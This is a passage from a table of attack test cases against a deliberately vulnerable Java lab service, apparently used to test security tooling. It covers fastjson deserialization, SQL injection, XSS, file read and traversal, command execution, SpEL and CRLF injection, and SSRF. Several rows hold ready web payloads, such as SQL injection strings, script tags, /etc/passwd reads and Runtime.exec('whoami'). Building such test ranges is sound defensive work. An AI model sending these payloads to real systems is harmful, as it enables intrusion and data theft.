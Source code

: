 | fastjson1_2_66_attack_2 | fastjson-1.2.66反序列漏洞-payload2 | POST | http://192.168.0.9:9979/fastjson1.2.66-process | 攻击 |
| fastjson1_2_66_attack_3 | fastjson-1.2.66反序列漏洞-payload3 | POST | http://192.168.0.9:9979/fastjson1.2.66-process | 攻击 |
| fastjson1_2_66_attack_4 | fastjson-1.2.66反序列漏洞-payload4 | POST | http://192.168.0.9:9979/fastjson1.2.66-process | 攻击 |
| fastjson1_2_66_attack_5 | fastjson-1.2.66反序列漏洞-payload5 | POST | http://192.168.0.9:9979/fastjson1.2.66-process | 攻击 |
| fastjson1_2_66_attack_6 | fastjson-1.2.66反序列漏洞-payload6 | POST | http://192.168.0.9:9979/fastjson1.2.66-process | 攻击 |
| fastjson1_2_67_attack_1 | fastjson-1.2.67反序列漏洞-payload1 | POST | http://192.168.0.9:9978/fastjson1.2.67-process | 攻击 |
| fastjson1_2_67_attack_2 | fastjson-1.2.67反序列漏洞-payload2 | POST | http://192.168.0.9:9978/fastjson1.2.67-process | 攻击 |
| fastjson1_2_68_attack_1 | fastjson-1.2.68反序列漏洞-payload1 | POST | http://192.168.0.9:9977/fastjson1.2.68-process | 攻击 |
| fastjson1_2_68_attack_2 | fastjson-1.2.68反序列漏洞-payload2 | POST | http://192.168.0.9:9977/fastjson1.2.68-process | 攻击 |
| fastjson1_2_80_attack | fastjson-1.2.80反序列漏洞 | POST | http://192.168.0.9:9976/fastjson1.2.80-process | 攻击 |
| druid_unauthorized | druid未授权漏洞 | GET | http://192.168.0.9:9997/druid | 攻击 |
| actuator2_unauthorized | SpringBoot Actuator未授权访问漏洞2.X | GET | http://192.168.0.9:9995/actuator | 攻击 |
| actuator1_unauthorized | SpringBoot Actuator未授权访问漏洞1.X | GET | http://192.168.0.9:9993/trace | 攻击 |
| sql_injection_id_attack | SQL注入-mybatics-数字 | GET | http://192.168.0.9:9991/users/1'/ | 攻击 |
| sql_injection_ids_attack | SQL注入-mybatics-数组 | GET | http://192.168.0.9:9991/users/ids/?ids=1,2,3' | 攻击 |
| sql_injection_like_attack | SQL注入-mybatics-like模糊匹配 | GET | http://192.168.0.9:9991/users/name?name=A' | 攻击 |
| sql_injection_strs_attack | SQL注入-mybatics-字符串数组 | GET | http://192.168.0.9:9991/users/names?names=Alice&names=Bob' | 攻击 |
| sql_injection_orderby_attack | SQL注入-mybatics-排序 | GET | http://192.168.0.9:9991/users/sort?orderByColumn=name&orderByDirection=asc' | 攻击 |
| sql_injection_Optional_attack | SQL注入-Optional<String> | GET | http://192.168.0.9:9991/users/findByOptionalUsername?username=test' | 攻击 |
| sql_injection_Object_attack | SQL注入-Object<String> | POST | http://192.168.0.9:9991/users/get_name_object | 攻击 |
| sql_injection_Annotation_attack | SQL注入-MyBatis注解方式 | GET | http://192.168.0.9:9991/users/by-username?name=test' | 攻击 |
| sql_injection_lombok_attack | SQL注入-lombok | POST | http://192.168.0.9:9991/users/lombok | 攻击 |
| sql_injection_hsqldb_attack | SQL注入-hsqldb | GET | http://192.168.0.9:9989/hsqldb?username=1' | 攻击 |
| sql_injection_Hibernate_attack | SQL注入-Hibernate | GET | http://192.168.0.9:9988/Hibernate_injection?username=foobar' OR (SELECT COUNT(*) FROM User)>=0 OR 'foobar'=' | 攻击 |
| xss_reflect_attack | 反射型XSS漏洞 | GET | http://192.168.0.9:9991/xss_reflect?name=<script>alert(123)</script> | 攻击 |
| xss_storage_attack | 存储型XSS漏洞 | GET | http://192.168.0.9:9991/xss_storage?name=<script>alert(123)</script> | 攻击 |
| xss_dom_attack | DOM XSS漏洞 | POST | http://192.168.0.9:9991/xss_dom | 攻击 |
| file_upload_attack | 任意文件上传漏洞 | POST | http://192.168.0.9:9991/file_upload | 攻击 |
| file_read_attack | 任意文件读取漏洞 | GET | http://192.168.0.9:9991/file_read?filePath=/etc/passwd | 攻击 |
| file_write_attack | 任意文件写入漏洞 | GET | http://192.168.0.9:9991/file_write?fileName=test.txt&data=test | 攻击 |
| file_download_attack | 任意文件下载漏洞 | GET | http://192.168.0.9:9991/file_download?fileName=../pom.xml | 攻击 |
| file_delete_attack | 任意文件删除漏洞 | GET | http://192.168.0.9:9991/file_delete?fileName=test.txt | 攻击 |
| runtime_command_execute | 命令执行漏洞-runtime | GET | http://192.168.0.9:9991/runtime_command_execute?command=whoami | 攻击 |
| process_builder_command_execute | 命令执行漏洞-ProcessBuilder | GET | http://192.168.0.9:9991/process_builder_command_execute?command=whoami | 攻击 |
| crlf_injection_attack | CRLF注入 | GET | http://192.168.0.9:9991/crlf_injection?name=%0D%0ASet-Cookie: sessionid=123456 | 攻击 |
| spel_expression_attack | SPEL表达式攻击 | GET | http://192.168.0.9:9991/spel_expression?input=T(java.lang.Runtime).getRuntime().exec('whoami') | 攻击 |
| ssrf_openStream_attack | SSRF攻击-openStream | GET | http://192.168.0.9:9991/ssrf_openStream?url=https://www.baidu.com | 攻击 |